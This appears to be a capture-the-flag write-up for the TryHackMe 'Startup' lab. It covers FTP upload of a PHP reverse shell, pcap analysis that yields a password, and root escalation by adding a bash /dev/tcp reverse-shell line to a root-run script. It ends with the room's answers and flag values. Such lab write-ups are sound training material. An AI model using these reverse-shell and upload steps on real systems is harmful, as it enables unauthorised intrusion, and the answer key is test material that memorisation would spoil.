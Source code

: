 ## IP=10.10.83.33


# Startup #

### Approach:
	
1. NMAP scan:
	* FTP (21) - vsftpd 3.0.4
	* SSH (22) - OpenSSH 7.2p
	* HTTP (80) - Apache 2.4.18

2. `http://$IP/files/notice.txt`
	* Yielded a potential username, `Maya`

3. Checking out the FTP server using `anonymous`.
	* Validated that I can put files on the server.

4. Create reverse shell and upload it via FTP.
	* Created a php reverse shell named `sus.php` and uploaded to the ftp server with `put sus.php`.
	* Started local netcat listener.
	* Once successfully uploaded, in my browser, navigated to `http://10.10.232.155/files/ftp/sus.php`.

5. Answer to question one is in `/recipe.txt`.

6. Uploaded and ran `linpeas.sh` on the victim machine.
	* User with console: `vagrant`
	* Unexpected folders in root: `/vagrant` + `/incidents`

7. Checking in on the folder, `/incidents`, there is a file, `suspicious.pcapng`. Its a pcap file so it contains network transaction data that we can look at in wireshark. So, I downloaded the pcap file onto my local machine and opened it in wireshark.
	* Found that the IP address, `192.168.22.139`, had attempted a netcat connection and was popping up a lot so I decided to apply the filter: `ip.src == 192.168.22.139` to view just that IP's traffic.
	* I then went through the line items until I came across something that caught my eye. When something did, I'd right-click, then select Follow > TCP Stream (or whatever stream was available). I did this a few times until I came across a stream that contained what looked to be linux commands. I followed through the commands and came across a potentical password.
	* I tried the password for the user, `lennie`, and sure enough it worked! See next step for user details.

8. Answer to user flag is located at `/home/lennie/user.txt`.
	* Can SSH using:
		* Username: `lennie`
		* Password: `c4ntg3t3n0ughsp1c3`

9. Saw that the script, `/home/lennie/scripts/planner.sh`, made a call to another script, `/etc/print.sh`, as root. As the user, `lennie`, I wasn't able to edit `planner.sh`, but I was able to edit `print.sh`. The script was a bash script so I looked up on GTFOBins a bash reverse shell script...
	* On my machine, I ran: `nc -lnvp 5555`
	* On the box, I added the following line to `print.sh`: `bash -c 'exec bash -i &>/dev/tcp/<MY IP>/5555 <&1'`
	* I waited about a minute and BOOM I had a reverse shell as root.

10. Answer to root flag is located at `/root/root.txt`.


### Questions:

1. What is the secret spicy soup recipe?

```
love
```

2. What is the user flag?

```
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

3. What is the root flag?

```
THM{f963aaa6a430f210222158ae15c3d76d}
```